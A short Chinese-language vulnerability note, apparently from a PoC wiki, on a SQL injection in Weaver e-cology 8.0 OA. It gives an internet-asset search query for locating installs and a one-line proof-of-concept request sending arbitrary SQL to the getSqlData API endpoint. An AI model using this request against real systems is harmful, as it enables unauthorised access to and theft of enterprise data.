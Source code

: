 # 泛微OA E-Cology getSqlData SQL注入漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。
泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

<a-checkbox checked>泛微e-cology 8.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746.png)

验证POC

```php
/Api/portal/elementEcodeAddon/getSqlData?sql=select%20@@version
```

![image-20220331145537127](/assets/PeiQi-Wiki/img/image-20220331145537127.png)